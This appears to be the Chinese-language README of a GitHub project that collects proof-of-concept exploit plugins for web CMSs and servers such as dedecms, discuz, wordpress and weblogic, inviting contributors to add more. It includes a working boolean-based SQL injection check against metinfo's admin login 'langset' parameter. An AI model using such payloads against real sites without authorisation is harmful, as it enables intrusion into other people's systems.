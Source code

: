 # cms_poc_exp
![](https://img.shields.io/badge/program-Python3-blue.svg)
___

## 此项目的目的与意义
> 个人精力有限,故公开此项目让感兴趣的人一起搜集插件为自己/作者扫描器提供强力的驱动
> 如果感兴趣为本项目提供支持,可以联系本人QQ2563152103


+ 项目说明
  - ~~本项目插件现已支持Python3 不再兼容Python2,故若要使用 [ShellFrameworkd](https://github.com/1oid/Shell-Frameworkd)
  进行批量扫描,请自行修改插件支持Python2~~
  - ~~[ShellFrameworkd](https://github.com/1oid/Shell-Frameworkd)批量扫描将会再之后修改为支持Python3~~
  - `ShellFrameworkd`已更名为[PocBatch-M](https://github.com/1oid/PocBatch-M)并支持了Python3
  - `扫描器版本` [访问扫描器版本](https://github.com/1oid/cms_poc_exp/tree/dev)

+ 现有的cms插件
  - [dedecms](https://github.com/1oid/cms_poc_exp/tree/master/dedecms)
  - [discuz](https://github.com/1oid/cms_poc_exp/tree/master/discuz)
  - [emobile](https://github.com/1oid/cms_poc_exp/tree/master/emobile)
  - [finecms](https://github.com/1oid/cms_poc_exp/tree/master/finecms)
  - [jcms](https://github.com/1oid/cms_poc_exp/tree/master/jcms)
  - [maccms](https://github.com/1oid/cms_poc_exp/tree/master/maccms)
  - [metinfo](https://github.com/1oid/cms_poc_exp/tree/master/metinfo)
  - [phpcms](https://github.com/1oid/cms_poc_exp/tree/master/phpcms)
  - [tomcat](https://github.com/1oid/cms_poc_exp/tree/master/tomcat)
  - [weblogic](https://github.com/1oid/cms_poc_exp/tree/master/weblogic)
  - [wordpress](https://github.com/1oid/cms_poc_exp/tree/master/wordpress)
  - [网站扫描插件_其他通用漏洞](https://github.com/1oid/cms_poc_exp/tree/master/www)
  - [yonyouoa](https://github.com/1oid/cms_poc_exp/tree/master/yongyouoa)
  - [zfsoft](https://github.com/1oid/cms_poc_exp/tree/master/zfsoft)
  - [jetty](https://github.com/1oid/cms_poc_exp/tree/master/jetty)
  - [ecshop](https://github.com/1oid/cms_poc_exp/tree/master/ecshop)
  - [74cms](https://github.com/1oid/cms_poc_exp/tree/master/74cms)

+ 插件编写格式,
```python
class Exploit:

  def attack(self, url):
    # 这里写验证漏洞的一些代码
    return "返回(提示)字符串"
```
调用 `Exploit().attack(url)`

以`metinfo_login_lang_sql`插件为例
```python
import requests
from urllib.parse import quote

class Exploit:

    def attack(self, url):
        true_url = url + "/admin/login/login_check.php?langset=cn" + quote("' and '1' ='1")
        false_url = url + "/admin/login/login_check.php?langset=cn" + quote("' and '1' ='2")

        response = requests.get(true_url)
        response2 = requests.get(false_url)

        if 'not have this language' in response2.text and 'not have this language' not in response.text:
            return "{} has SQL Injection!".format(true_url)
```

## 插件编写注意事项
+ 拒绝重复插件, 新增了一个`find.py`, 通过特征来搜索已存在的脚本是否含有指定特征
使用方法: 
  - 方法一: `python3 find.py cms名称 特征` 例如 `python3 find.py dedecms /install/index.php`
  - 方法二: `python3 find.py 特征` 例如 `python3 find.py /install/index.php` (如果不指定cms, 则会查找本地所有的插件)

## 本项目目前支持/贡献的人
- [1oid(作者)](https://github.com/1oid)
- [ske](https://github.com/SkewwG/)提供自己编写的插件[VulScan](https://github.com/SkewwG/VulScan)
- [LiodAir](https://github.com/LiodAir)提交分支
- [icetea1](https://github.com/icetea1) 提交新的cms和poc
